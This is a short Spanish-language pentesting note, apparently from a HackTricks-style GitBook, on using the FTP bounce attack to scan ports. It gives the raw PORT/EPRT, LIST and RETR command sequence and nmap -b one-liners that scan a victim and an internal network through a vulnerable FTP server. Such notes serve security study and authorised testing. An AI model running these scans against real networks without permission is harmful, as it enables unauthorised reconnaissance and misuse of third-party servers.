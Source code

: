 ```yaml
---
description: >-
  Explotar el FTP Bounce Attack para escanear puertos a través de una conexión
  FTP
---
```


# FTP BOUNCE ATTACK - ESCANEO

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack" %}

## MANUAL

1. Conectar con la FTP vulnerable.
2. Utilizar **PORT** o **EPRT** (solo unos de ellos) para hacer al servidor establecer una conexión con la `<IP:PUERTO>` que se quiere escanear:\
   `PORT 172,32,80,80,0,8080`\
   `EPRT |2|172.32.80.80|8080|`
3. Utilizar **LIST**. Esto mandará a la conexión `<IP:PUERTO>` la lista de archivos en la carpeta actual del FTP y espera respuesta: \
   `150 File status okay` Esto quiere decir que el puerto está **abierto**.\
   `425 No connection established` Esto quiere decir que el puerto está **cerrado**.
4. En lugar de **LIST** se puede utilizar **RETR** /file/in/ftp y esperar una **respuesta similar** a la de LIST.

Ejemplo utilizando **PORT** (Puerto 8080 abierto / Puerto 7777 cerrado):

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ejemplo con **EPRT** (Puerto 8080 abierto / Puerto 7777 cerrado):

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Ejemplo con **RETR** en vez de LIST:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## NMAP

```
nmap -b <name>:<pass>@<ftp_server> <victim>
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```
